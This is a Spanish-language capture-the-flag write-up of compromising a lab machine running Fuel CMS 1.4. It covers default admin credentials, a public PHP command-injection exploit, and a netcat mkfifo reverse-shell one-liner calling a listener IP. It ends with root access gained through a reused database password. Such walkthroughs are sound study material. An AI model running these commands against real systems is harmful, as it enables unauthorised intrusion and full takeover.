 

# Reconocimiento

![[Pasted image 20240405154504.png]]

El unico servicio expuesto es un servidor http, en el puerto 80, y encontramos rutas como /fuel/ y robots.txt, procedemos a ver la pagina web y nos encontramos con un cms con nombre Fuel

![[Pasted image 20240405154944.png]]

Comprobamos la ruta /fuel/ dentro de la raiz y nos encontramos con un panel de autenticación, correspondiente al cms

![[Pasted image 20240405155709.png]]

Haciendo una brusquedad en internet sobre las credenciales por defecto probamos admin:admin, y logramos entrar al desaborad del admin

![[Pasted image 20240405160004.png]]

![[Pasted image 20240405160106.png]]

Podemos comprobar la versión del cms en /fuel/site_docs y confirmar que es la versión 1.4, por lo cual buscare un script para esta versión dado que tenemos credenciales 

Copiaremos el archivo y editaremos las variables que correspondientes para lanzar el exploit

![[Pasted image 20240405163525.png]]

Copiaremos el exploit utilizando searchsploit -m 50477.py, podemos apreciar que 
Editando el script, comprobamos url al que le hace la petición el script e intentamos decodificarlo para poder leerlo

![[Pasted image 20240405164445.png]]
![[Pasted image 20240405164458.png]]

Podemos observar que la consulta se hace a la web /fuel/pages/select?filter= y el filtro ejecuta los siguientes comandos pi(print($a= 'system'))+ $a(' quote(cmd)')+ ', lo que nos dice es que este exploit ejecuta comando mediante php.

Ejecutamos el script y podremos ejecutar a nivel de sistema con el usuario www-data y podemos obtener la primera bandera

![[Pasted image 20240405165241.png]]


# Acceso inicial

Podremos en escucha el netcat y veremos si es posible generarnos una bash inversa

![[Pasted image 20240405165658.png]]

He intentado varias shells, hasta que he dado con la correcta `rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.74.176 1337 >/tmp/f`

![[Pasted image 20240405170138.png]]

![[Pasted image 20240405170412.png]]

Hemos conseguido acceso a la maquina, desde el usuario www-data, veremos www-data es el unico a nivel de sistema y que permisos tiene, pero antes un tratamiento a la tty `python -c 'import pty; pty.spawn("/bin/bash")'`

Y conseguimos la bandera

![[Pasted image 20240405170741.png]]



# Escalada de privilegios

Buscaremos los archivos de root que puede ejecutar el usuario www-data usando el comando `find / -perm -4000 2>/dev/null` , podríamos buscar en GTFObins algún binario fuera de lo común, también veremos las conexiones TCP y UDP que tiene a la escucha

![[Pasted image 20240405171013.png]]

![[Pasted image 20240405171111.png]]

Ninguno de los binarios parece poder escalar privilegio, sin autenticación, buscaremos en internet donde se encuentra almacenada la base de datos, y leeremos el archivo en busquedad de credenciales

![[Pasted image 20240405172315.png]]

Listando archivos, encontramos dentro de la carpeta aplicación un archivo llamado database.php, intentaremos leerlo para ver las credenciales

![[Pasted image 20240405172418.png]]

Entramos a la base de datos, para verificar si hay algo dentro. 

![[Pasted image 20240405172538.png]]

![[Pasted image 20240405172841.png]]

Pero únicamente vemos el administrador, del CMS, intentemos usar la contraseña, para el usuario www-data o el usuario root

![[Pasted image 20240405173123.png]]

Y efectivamente logramos comprometer la maquina por completo con el usuario root, por una mala reutilización de credenciales, con esto podremos ver la bandera de root

![[Pasted image 20240405173222.png]]

